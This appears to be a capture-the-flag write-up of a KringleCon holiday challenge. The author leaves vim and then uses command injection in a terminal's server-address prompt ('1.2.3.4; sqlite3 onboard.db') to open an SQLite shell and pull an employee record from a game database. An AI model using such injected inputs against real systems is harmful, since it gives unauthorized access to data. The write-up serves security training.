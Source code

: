 Easy enough, Esc + :q!.
Note that I didn't have to press escape because I was already in command mode, but it's never a bad idea to double check, and similarly I did not have to use the "!" to force quit, but that's just a (bad) habit.

Now that I've helped her, Bushy gives me the following hint for Challenge 1
>If you listen closely to Ed Skoudis' talk at the con, you might even pick up all the answers you need...

### The Name Game
[Link to Cranberry Pi terminal](https://docker.kringlecon.com/?challenge=pwshmenu&id=81397ae8-3cde-48e9-ba61-03414535ed9b)

This challenge is located to the left of the castle entryway.

Minty Candycane seems to have forgotten her coworker's, last name "Chan", first name, and wants our help finding it out using Alabaster Snowball's tools. She drops some hints that it is probably using an SQLite database, and that the onboarding system probably uses PowerShell.

When we open our shell, we are given the option to start the onboarding process, verify the system, or quit the application. Since Minty thought it was important to tell us about the onboarding system, that seems like a good place to start.

After spending 30 minutes unsuccessfully trying to inject into the onboarding option, I finally decided I would take a look at option two, system verification. Running it gave me the following:

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4.
ping: unknown host 1.2.3.4
onboard.db: SQLite 3.x database
```

This seems ripe for injection, let's try saying our server is _1.2.3.4; sqlite3 onboard.db_...
```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4; sqlite3 onboard.db
connect: Network is unreachable
SQLite version 3.11.0 2016-02-15 17:29:24
Enter ".help" for usage hints.
sqlite>
```

Looks like we got database access. Let's enumerate the schema, then get Chan's first name.

```
sqlite> .tables
onboard
sqlite> .schema onboard
CREATE TABLE onboard (
    id INTEGER PRIMARY KEY,
    fname TEXT NOT NULL,
    lname TEXT NOT NULL,
    street1 TEXT,
    street2 TEXT,
    city TEXT,
    postalcode TEXT,
    phone TEXT,
    email TEXT
);
sqlite> SELECT * FROM onboard WHERE lname LIKE "Chan";
84|Scott|Chan|48 Colorado Way||Los Angeles|90067|4017533509|scottmchan90067@gmail.com
```
